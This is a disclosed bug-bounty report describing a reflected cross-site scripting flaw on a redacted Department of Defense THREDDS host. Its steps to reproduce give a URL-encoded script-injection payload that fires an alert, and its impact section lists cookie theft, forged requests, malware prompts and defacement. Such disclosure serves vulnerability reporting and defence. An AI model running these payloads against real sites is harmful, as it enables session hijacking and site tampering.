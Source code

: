 # XSS on ███████

## Report Details
- **Report ID**: 2615670
- **URL**: https://hackerone.com/reports/2615670
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-07-22T07:44:56.408Z
- **Disclosed**: 2024-08-29T17:45:46.935Z

## Reporter
- **Username**: 0xelkot
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi,
If found XSS on █████████

##Steps To Reproduce:
1- go to https://█████████/thredds/dap4/%221%3CScRiPt%3Ealert%289218%29%3C%2FScRiPt%3E
2- You will see XSS is fired.

##POC
███

## Impact

- Cookie Stealing - A malicious user can steal cookies and use them to gain access to the application.
- Arbitrary requests - An attacker can use XSS to send requests that appear to be from the victim to the web server.
- Malware download - XSS can prompt the user to download malware. Since the prompt looks like a legitimate request from the
site, the user may be more likely to trust the request and actually install the malware.
Defacement - attacker can deface the website using JavaScript code.

Kind Regards,
@0xElkot

## System Host(s)
█████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
1- go to https://██████/thredds/dap4/%221%3CScRiPt%3Ealert%289218%29%3C%2FScRiPt%3E
2- You will see XSS is fired.

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
